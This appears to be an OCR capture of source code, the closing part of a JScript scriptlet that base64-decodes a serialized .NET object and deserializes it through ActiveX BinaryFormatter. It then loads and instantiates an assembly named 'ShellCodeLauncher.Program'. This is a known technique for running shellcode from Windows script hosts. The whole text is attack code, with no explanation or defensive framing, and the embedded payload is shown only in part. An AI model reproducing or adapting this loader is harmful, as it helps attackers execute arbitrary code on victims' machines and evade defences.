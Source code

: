     "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAIAAADAAAABA6AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAENAAAABAAAAAkXAAAACQYAAAAJFgAAAAYaAAAAJ1N5c3RlbS5SZWZs"+
    "ZWN0aW9uLkFzc2VtYmx5IExvYWQoQnl0ZVtdKQgAAAAKCwAA";
    var entry_class = 'ShellCodeLauncher.Program'; 
    
    try {
    setversion();
    var stm = base64ToStream(serialized_obj);
    var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
    var al = new ActiveXObject('System.Collections.ArrayList');
    var d = fmt.Deserialize_2(stm);
    al.Add(undefined);
    var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class); 
    } catch (e) {
    debug(e.message);
    } 
    
    ]]>
    </script> 
    
    </component>
    </package>